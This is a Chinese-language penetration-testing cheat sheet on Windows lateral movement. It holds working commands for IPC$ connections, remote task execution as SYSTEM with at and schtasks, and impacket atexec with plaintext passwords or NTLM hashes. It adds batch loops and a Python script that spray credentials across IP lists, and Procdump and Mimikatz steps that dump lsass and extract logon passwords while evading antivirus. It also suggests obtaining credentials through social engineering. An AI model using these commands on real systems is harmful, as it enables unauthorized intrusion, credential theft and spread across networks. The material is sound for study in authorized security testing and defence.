







# at&schtasks

建立IPC失败的原因

- 目标系统不是NT或以上的操作心痛
- 对方没有打开IPC$共享
- 对方未开启139、445端口,或者被防火墙屏蔽
- 输出命令、账号密码有错误

```powershell
#at< Windows2012
net user 
1.建立IPC$连接
P.S. 如口令、用户名为空，则建立了所谓“空连接”，这种连接权限有限，仅为everyone级权限；因此，建议在通过社会工程等手段获取用户、口令后再尝试。
2.copy要执行的命令脚本到目标主机
3.查看目标时间,创建计划任务(at、schtashk)
4.删除IPC链接
net use \\目标服务器IP地址\IPC$ "口令" /user:用户名 #工作组
net use \\目标服务器IP地址\IPC$ "口令" /user:domain\用户名 #域工作组
copy c:\\add.bat \\192.168.10.2\c$
net use z: \\ip\c$ #将ip的c盘映射到本地的z盘
dir \\ip\c$ #查看当前目录下的文件
at \\192.168.10.3 c:add.bat #执行命令

###schtasks
schtasks /create /s 192.168.10.3 /u 用户名 /p 密码 /ru "SYSTEM" /tn adduser /sc DAILY /st 19:39 /tr c:\\add.bat /F #创建adduser任务
schtasks /run /s 192.168.10.3 /tn adduser /i #运行adduser任务
shctasks /delete /s 192.168.10.3 /tn adduser /f #删除adduser任务
```

**at**








**schtasks**

2003可能会测试不起,这里用的win7,提前放好了add.bat文件






每次输入时都需要输入密码



成功

# atexec-impacket

上面都用的是明文密码,但在高版本中,win的内存里不会保存明文密码,但是在实际通讯中,只需要加密的密码就可以了,所以获取加密密码仍然可以进行通信,但是要借助工具

明文hash传递

```powershell
atexec.exe
./administrator:123.com@192.168.10.3 "whoami"

atexec.exe
./administrator:123.com@192.168.10.3 "ipconfig"

atexec.exe -hashes :afffeba176210fad4628f0524bfe1942 win7\administrator@192.168.10.3 "whoami"
```



# 批量利用

```php
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "密码" /user: "用户名" //ips.txt文件中保存的是探测的存活ip   #批量检测IP对应明文连接

FOR /F %%i in (ips.txt) do atexec.exe ./administrator:"密码" #批量检测IP对应明文回显版

FOR /F %%i in (pass.txt) do atexec.exec.exe ./administrator:%%i@192.168.10.1 whoami #批量检测明文对应IP回显版

FOR /F %%i in (hash.txt) do atexec.exec.exe -hashes :%%i ./administrator@192.168.10.1 whoami #批量检测HASH对应IP回显版
   
```

一般只能有一个变量,如果想要多个变量,可以使用python打包成exe文件

```python
pyinstaller -F test.py  #生成可执行EXE,会生成在Scripts/dist文件下
import os,time 
ips={
    
}
users={
    
}
passs={

}
for ip in ips:
    for user in users:
        for mima in passs:
            exec="net use \\"+"\\"+ip+'\ipc$'+mima+' /user:god\\'+user
            print('--->'+exec+'<---')
            os.system(exec)
            time.sleep(1)
```

# Procdump+Mimikatz抓取密码

```php
procdump是微软开发的所以不会被杀，如果mimikatz被杀的情况下可以用这个配合导出密码

#procdump配合mimikatz

procdump -accepteula -ma lsass.exe lsass.dmp

mimikatz上执行：

privilege::debug

sekurlsa::minidump lsass.dmp

sekurlsa::logonPasswords full
#Pwdump7

#QuarksPwdump(密码破解工具)

https://www.freebuf.com/sectool/164507.html 
```

